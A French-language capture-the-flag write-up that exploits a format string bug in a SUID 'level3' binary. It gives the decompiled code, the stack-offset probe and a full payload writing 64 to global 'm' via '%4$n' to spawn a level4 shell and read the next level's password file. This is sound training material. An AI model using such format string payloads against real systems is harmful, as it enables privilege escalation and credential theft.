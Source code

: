 # LEVEL 3

## 1. Introduction

Le binaire `level3` présente une vulnérabilité de **format string** (chaîne de format). Contrairement aux niveaux précédents, le programme utilise `printf()` sans spécificateur de format, ce qui permet d'exploiter cette faille pour écrire dans une variable globale et obtenir un shell.

Ici le binaire lit une entrée standard et l'affiche :

![alt text](Ressources/image-2.png)

## 2. Analyse

### 2.1 Droits du binaire
```bash
$ ls -la level3
-rwsr-s---+ 1 level4  level3  747441 Mar  6  2016 level3
```

### 2.2 Analyse avec Ghidra

En décompilant le binaire, on observe la logique suivante :

```c
void v(void) {
    char local_20c[520];  // Buffer de 520 octets
    
    fgets(local_20c, 0x200, stdin);  // Lecture sécurisée
    printf(local_20c);                // ← Vulnérabilité !
    
    if (m == 0x40) {  // Si m == 64
        fwrite("Wait what?!\n", 1, 0xc, stdout);
        system("/bin/sh");  // ← Notre cible !
    }
    return;
}
```

**Points clés :**
- `printf()` sans spécificateur de format = vulnérabilité format string
- Variable globale `m` doit être égale à `0x40` (64) pour obtenir le shell
- Buffer de 520 octets avec `fgets()` (lecture sécurisée)

### 2.3 Condition d'exploitation

On voit ici dans cette condition que si la variable globale `m` est égale à 64, on a un shell qui s'exécute :

![alt text](Ressources/image.png)

### 2.4 Localisation de la variable globale

Avec Ghidra on peut voir l'adresse de `m` ici :

![alt text](Ressources/image-3.png)

**Adresse de `m` : `0x0804988c`**

## 3. Exploitation

### 3.1 Vulnérabilité Format String

La vulnérabilité `printf()` sans spécificateur permet de :
1. **Lire la pile** : Afficher des valeurs de la pile
2. **Écrire en mémoire** : Utiliser `%n` pour écrire des valeurs
3. **Contrôler l'exécution** : Modifier des variables critiques

### 3.2 Détermination de la position

On peut utiliser `%n`, qui va écrire dans l'adresse donnée en argument la valeur du nombre de caractères déjà imprimés. Il nous reste à savoir à quel argument `printf` va lire notre adresse. Pour ça on peut simplement tester avec une simple commande :

```bash
echo -e "AAAA %p %p %p %p %p %p %p %p" | ./level3
```

![alt text](Ressources/image-5.png)

L'adresse de **AAAA** est **0x41414141**, on peut voir ici que c'est à la 4ème position donc `printf` va le prendre en 4ème argument.

Donc pour le payload on peut utiliser **`%4$n`** ce qui revient à écrire le nombre de caractères déjà imprimés dans l'adresse donnée par le 4ᵉ argument.

### 3.3 Construction du payload

Pour notre payload nous allons donc utiliser :
- L'adresse de `m` : `\x8c\x98\x04\x08` (little-endian)
- 60 caractères de padding pour arriver à 64
- **`%4$n`** pour écrire au bon endroit

Ce qui nous donne :

```bash
python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/payload
```

### 3.4 Exécution de l'exploit

```bash
cat /tmp/payload - | ./level3
```

![alt text](Ressources/image-4.png)

### 3.5 Commandes complètes

```bash
# Se connecter au niveau
ssh level3@<IP> -p 4242

# Créer le payload
python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/payload

# Exécuter l'exploit
cat /tmp/payload - | ./level3

# Récupérer le flag
cat /home/user/level4/.pass
```

## 4. Structure du Payload

### 4.1 Ce qui se passe concrètement

```
┌─────────────────────────────────────────────────────────┐
│                FORMAT STRING ATTACK                    │
├─────────────────────────────────────────────────────────┤
│  Adresse m[4] + Padding[60] + Directive[4]           │
│  │                                                    │
│  └─→ \x8c\x98\x04\x08 + "A"*60 + "%4$n"            │
│      │                                                │
│      └─→ printf() interprète comme format string     │
│          │                                            │
│          └─→ %4$n écrit 64 dans m à 0x0804988c      │
│              │                                        │
│              └─→ m == 0x40 (64) ✓                   │
│                  │                                    │
│                  └─→ system("/bin/sh")               │
│                      │                               │
│                      └─→ Shell avec privilèges level4│
└─────────────────────────────────────────────────────────┘
```

### 4.2 Structure du payload

```
┌─────────────────┐
│ Adresse de m    │ ← 4 octets (\x8c\x98\x04\x08)
├─────────────────┤
│ Padding (60 A)  │ ← 60 octets pour atteindre 64
├─────────────────┤
│ %4$n           │ ← Directive d'écriture
└─────────────────┘
```

### 4.3 Flux d'exécution

```
1. printf() reçoit notre entrée sans spécificateur de format
2. printf() interprète notre entrée comme des directives de format
3. %4$n lit l'adresse à la 4ème position (notre adresse de m)
4. %4$n écrit le nombre de caractères imprimés (64) à cette adresse
5. Variable m devient égale à 64 (0x40)
6. Condition m == 0x40 est vraie
7. system("/bin/sh") s'exécute avec les privilèges SUID de level4
```

### 4.4 Visualisation de l'exploitation

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   Format String │    │   Écriture      │    │   Condition     │
│   %4$n         │───▶│   m = 64        │───▶│   m == 0x40 ✓  │
│                │    │   0x0804988c    │    │                │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```

### 4.5 Mécanisme de %n

```
┌─────────────────┐
│ Adresse de m    │ ← Pointeur vers la variable
├─────────────────┤
│ Padding (60 A)  │ ← 60 caractères
├─────────────────┤
│ %4$n           │ ← Écrit 64 (4+60) à l'adresse
└─────────────────┘
```

## 5. Conclusion

Cette exploitation démontre l'importance de toujours spécifier le format dans `printf()` et d'éviter les chaînes de format contrôlées par l'utilisateur. 